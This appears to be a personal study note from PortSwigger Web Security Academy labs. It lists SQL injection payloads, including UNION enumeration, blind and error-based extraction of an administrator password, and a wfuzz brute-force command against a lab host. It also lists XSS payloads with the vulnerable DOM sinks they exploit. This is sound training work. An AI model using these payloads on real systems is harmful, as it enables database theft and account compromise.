 ```yaml
---
title: BurpSuite Lab
author: Yuchao
date: 2022-05-10 11:33:00 +0800
categories: [sec]
tags: [burpsuite]
math: true
mermaid: true
---
```


# sql injection

#### cheetsheet
<https://portswigger.net/web-security/sql-injection/cheat-sheet>

```
'+OR+1=1--
'+UNION+SELECT+NULL,NULL--

-- find columns are compatible with string data
'+UNION+SELECT+'abcdef',NULL,NULL--

-- oracle, find database type and version
'+UNION+SELECT+'abc','def'+FROM+dual--
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

-- mysql, find database type and verion
'+UNION+SELECT+'abc','def'#
'+UNION+SELECT+@@version,+NULL#

-- list database contents, not oracle
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--

-- list database contents, oracle
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--

-- blind, conditional responses
-- "Welcome back" message disappears if error
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a

-- blind, error based, 
TrackingId=qi1dv3ezFEfn1WHY' || (select '' from users where rownum=1) ||'; session=oAr6CBmB8X7rdA5tS8FQRfcfX1qELUtK
-- WHERE ROWNUM = 1 condition is important here to prevent the query from returning more than one row, which would break our concatenation. 
-- Conditional errors
-- You can test a single boolean condition and trigger a database error if the condition is true. Oracle: SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual 
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
-- check if administrator exists.
Cookie: TrackingId=qi1dv3ezFEfn1WHY' || (SELECT CASE WHEN (length(password)>19) THEN to_char(1/0) ELSE NULL END FROM users where username='administrator' ) ||'; session=oAr6CBmB8X7rdA5tS8FQRfcfX1qELUtK
-- when 19, return code500, mean > 19 is true; when 20, return code200, mean > 20 is false.
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
-- blind test password
-- wfuzz is much quicker than intruder.
wfuzz -H "Cookie: TrackingId=qi1dv3ezFEfn1WHY' || (SELECT CASE WHEN (SUBSTR(password,1,6)='1psbwFUZZ') THEN to_char(1/0) ELSE NULL END FROM users where username='administrator' ) ||'; session=oAr6CBmB8X7rdA5tS8FQRfcfX1qELUtK" -u https://aca41fa31e42c37cc0b00aa9001a0095.web-security-academy.net/filter?category=Pets -w /home/kali/wordlist/alphanum --sc 500
```

# Cross-site scripting

- url ``` web-security-academy.net/?search=<script>alert%281%29<%2Fscript> ```
- ``` <script> alert(1) </script>```

---

"View source" option won't work for DOM XSS testing 

---

document.write
```js
function trackSearch(query) {
	document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
	trackSearch(query);
}
```
``` "><svg onload=alert(1)> ```

---

innerHTML
```javascript
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}

```
``` <img src=1 onerror=alert(1)> ```

---

jQuery selector sink
```javascript
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
```

```javascript
<a id="author" href="javascript:alert(1)">0xZEN</a>
```
---

HTML ```<a>``` href Attribute
- ``` <a href="URL"> ```
- The URL of the link.
Possible values:
- An absolute URL - points to another web site (like href="http://www.example.com/default.htm")
- A relative URL - points to a file within a web site (like href="default.htm")
- Link to an element with a specified id within the page (like href="#section2")
- Other protocols (like https://, ftp://, mailto:, file:, etc..)
- A script (like href="javascript:alert('Hello');")    THIS ONE CAN BE USED TO XSS.

---

AngularJS expression

```txt
{{$on.constructor('alert(1)')()}}
```

---

Reflected DOM XSS
- reflected in json format
```javascript
{"results":[],"searchTerm":"asd"}
```
search: ``` \"-alert(1)}// ```
```javascript
{"results":[],"searchTerm":"\\"-alert(1)}//"}
```
- note:  ``` \ ``` can not be interpretered alone, so if only one \ will be error in json.
- ``` a = {"results":[],"searchTerm":"\\\"} ``` Error
- ``` a = {"results":[],"searchTerm":"\\\\"} ``` Good
- An arithmetic operator (in this case the subtraction operator) is then used to separate the expressions before the alert() function is called.
